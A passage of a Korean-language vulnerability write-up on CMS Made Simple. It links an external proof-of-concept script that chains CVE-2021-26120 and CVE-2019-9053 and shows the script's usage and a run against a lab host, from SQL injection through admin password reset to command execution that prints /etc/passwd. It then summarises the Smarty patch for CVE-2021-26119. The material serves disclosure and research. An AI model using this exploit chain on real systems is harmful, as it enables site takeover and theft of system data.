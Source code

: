 ## CMS Made Simple

본 문서에서 기술한 취약점인 CVE-2021-26120와 CVE-2019-9053을 연계해 RCE에 성공했습니다.

익스플로잇 코드: [https://srcincite.io/pocs/cve-2021-26120.py.txt](https://srcincite.io/pocs/cve-2021-26120.py.txt)

```bash
researcher@incite:~/cmsms$ ./poc.py
(+) usage: ./poc.py <host> <path> <cmd>
(+) eg: ./poc.py 192.168.75.141 / id
(+) eg: ./poc.py 192.168.75.141 /cmsms/ "uname -a"

researcher@incite:~/cmsms$ ./poc.py 192.168.75.141 /cmsms/ "id;uname -a;pwd;head /etc/passwd"
(+) targeting http://192.168.75.141/cmsms/
(+) sql injection working!
(+) leaking the username...
(+) username: admin
(+) resetting the admin's password stage 1
(+) leaking the pwreset token...
(+) pwreset: 35f56698a2c3371eff7f38f34f001503
(+) done, resetting the admin's password stage 2
(+) logging in...
(+) leaking simplex template...
(+) injecting payload and executing cmd...

uid=33(www-data) gid=33(www-data) groups=33(www-data)
Linux target 5.8.0-40-generic #45-Ubuntu SMP Fri Jan 15 11:05:36 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
/var/www/html/cmsms
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
```

# Patch

## CVE-2021-26119

보안 모드에서 `$smarty.template_object` 에 접근하지 못하도록 검증 로직을 추가하였습니다. 확인 결과, 패치된 버전인 3.1.39에서는 기본적으로 접근이 제한되어 있었습니다.

패치 커밋: [https://github.com/smarty-php/smarty/commit/c9272058d972045dda9c99c64a82acb21c93c6ad?branch=c9272058d972045dda9c99c64a82acb21c93c6ad](https://github.com/smarty-php/smarty/commit/c9272058d972045dda9c99c64a82acb21c93c6ad?branch=c9272058d972045dda9c99c64a82acb21c93c6ad)
